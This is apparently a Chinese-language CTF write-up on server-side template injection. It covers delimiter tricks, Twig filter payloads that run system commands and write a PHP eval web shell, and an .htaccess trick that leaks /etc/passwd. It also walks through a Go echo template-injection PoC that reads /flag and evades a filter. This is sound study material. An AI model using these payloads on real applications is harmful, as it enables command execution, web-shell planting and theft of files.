





# 浅谈模板语法的一些共性和 GoLang 模板的一些机制 - 先知社区

浅谈模板语法的一些共性和 GoLang 模板的一些机制

- - -

### Background

翻了下自己的收藏发现有很多模板注入相关的记录，于是拿出一些共性来分析下，而 GoLang 是相对非常安全的语言，除了过时的库以外，现在唯一的可以玩的地方就是 SSTI，我在做相关的 CTF 题时候，发现了一些有趣的玩法

### 模板语法的一些共性

#### 解析头

近几年在关注一些 CTF 中，我发现了一些比较有趣的事情，比如某些语法是具有通用性的

首先都会有一些解析的符号标识 比如{{}}  有的时候就会在这里作文章。比如我以前在 wolvesec ctf 中提到一个 chunk-templates 的模板

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215013023-bc326cee-cb5e-1.png)

这里我们搜索相关文档的时候，可以发现$就是他解析的标识 但是

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215013037-c40cf5c4-cb5e-1.png)

在这道题目里面$被 ban 掉了 但你打断点跟进模板解析的时候会发现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215013048-cb1a6d4c-cb5e-1.png)

~同样可以作为模板解析的字符 所以你在关注解析引擎的时候一定要看完整的解析过程，多读代码

#### 某些函数

除了这个之外还有一些有意思的是有些语法支持函数调用，同样我在先知发过一篇高版本模板注入 tricks 提到了 Twig 模板

```plain
{{["id"]|map("system")}}
{{{"<?php phpinfo();eval($_POST[1])":"/var/www/html/1.php"}|map("file_put_contents")}}    
{{["id", 0]|sort("system")}}
{{["id"]|filter("system")}}
{{[0, 0]|reduce("system", "id")}}
```

支持以 | 形式的函数调用

我们刚才提到的这个 chunk-template 很显然也支持这种类似的调用方法

```plain
{.{%24flag%7d|urldecode()}
```

#### 语法

每个模板也都有很多常见的语法 比如 if

```plain

 
  
 
  
 
  
 
  
 
  
 

```

支持类似这样的调用，这个给了我们一些思路，比如在某些情况下，我们可不可以通过盲注的手法，来获取一些东西呢？

答案肯定是可以的

比如在上面说的那道题里

```plain
{}{test}{}
```

如果监测到 test 就继续加入一直重复下去就好

在模板之外，也有类似的东西 在曾经某个比赛中一道文件上传的题 本意考察.htaccess 的 rce 利用方式，但是在 wupco 老师的 wp 里给了我们一个耳目一新的新解法

他说 在.htaccess 里其实也支持 if 类似的匹配，而且还有一个神奇的函数 file

可以进行读取文件，但是比较麻烦的一点在于，怎么判断匹配正确与否呢？

wupco 老师 定义了一个 ErrorDocument 是 404 这样如果报错 就可以在一个 404 网页看到他定义的 wupco 字符串，真是一个天才的思路

```plain
<If "file('/etc/passwd')=~ /root/">
ErrorDocument 404 "wupco"
</If>
```

### GoLang 模板注入的一些机制

某道题目里的大致代码如下

```plain
func templateMiddleware(next echo.HandlerFunc) echo.HandlerFunc {
    return func(c echo.Context) error {
        file, err := os.Open("./template.html")
        if err != nil {
            return err
        }
        stat, err := file.Stat()
        if err != nil {
            return err
        }
        buf := make([]byte, stat.Size())
        _, err = file.Read(buf)
        if err != nil {
            return err
        }

        userTemplate := c.Request().Header.Get("Template")

        if userTemplate != "" {
            buf = []byte(userTemplate)
        }

        c.Set("template", buf)
        return next(c)
    }
}

func handleIndex(c echo.Context) error {
    tmpl, ok := c.Get("template").([]byte)

    if !ok {
        return fmt.Errorf("failed to get template")
    }

    tmplStr := string(tmpl)
    t, err := template.New("page").Parse(tmplStr)
    if err != nil {
        return c.String(http.StatusInternalServerError, err.Error())
    }

    buf := new(bytes.Buffer)

    if err := t.Execute(buf, c); err != nil {
        return c.String(http.StatusInternalServerError, err.Error())
    }

    return c.HTML(http.StatusOK, buf.String())
}

func main() {
    e := echo.New()

    e.Use(middleware.Logger())
    e.Use(middleware.Recover())

    e.GET("/", handleIndex, templateMiddleware)

    e.Logger.Fatal(e.Start(":3001"))
}
```

我们可以很容易看见这个需要我们在 template 传模板 想到直接调用 File 就好了

```plain
{{ .File "/flag" }}
```

但是其实他做了一层 proxy

```plain
if (/flag\{.*\}/.test(data)) {
          return reply.code(403).send("??");
        }
```

不允许出现 flag 字样 我翻阅了一些相关资料 发现

```plain
{{ .Echo.Filesystem.Open "/etc/passwd" }}
```

我们可以通过这样的方式来打开文件 但是他返回的值是[`fs.File`](https://pkg.go.dev/io/fs#File)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215013101-d2bab246-cb5e-1.png)

但是他有一个 Read 函数 但是传入的是个数组 开心的是

```plain
if userTemplate != "" {
            buf = []byte(userTemplate)
        }
```

本身模板就是数组

所以我们可以

1.  `{{ $a := .Get "template" }}`
2.  `{{ $b := .Echo.FileSystem.Open "/flag" }}`
3.  `{{ $c := $b.Read $a }}`
4.  `{{ $a }}`

就可以了，最后获得的结果是 byte\[\]转换一下就好了

那有没有别的思路呢？

因为他只针对匹配了一个 flag 的头，根据我们以前的思路 还是可以寻找一些查找相关的方法 如何清洗掉

找到了一个 os.File 中的 Seek 方法，那便移掉四位头其实就可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215013113-d97a59b0-cb5e-1.png)

而且我发现了个 echo.Context 接下来的结构体

```plain
func (c *context) Stream(code int, contentType string, r io.Reader) (err error) {
    c.writeContentType(contentType)
    c.response.WriteHeader(code)
    _, err = io.Copy(c.response, r)
    return
}
```

Stream 打开的文件会被复制和响应，而且可以自定义 ContentType 头，那我们还可以省一步转 byte

poc 如下

```plain
{{ $f :=  .Echo.Filesystem.Open "/flag" }} {{ $f.Seek 4 0 }} {{ .Stream 200 "text/html" $f }}
```

### 总结

模板语言的特性和一些语法有很多，在实际使用中，可以更多的关注文档和 IDE，比如一个好的找 Golang 结构体的方法，就是通过 Vscode 查找。
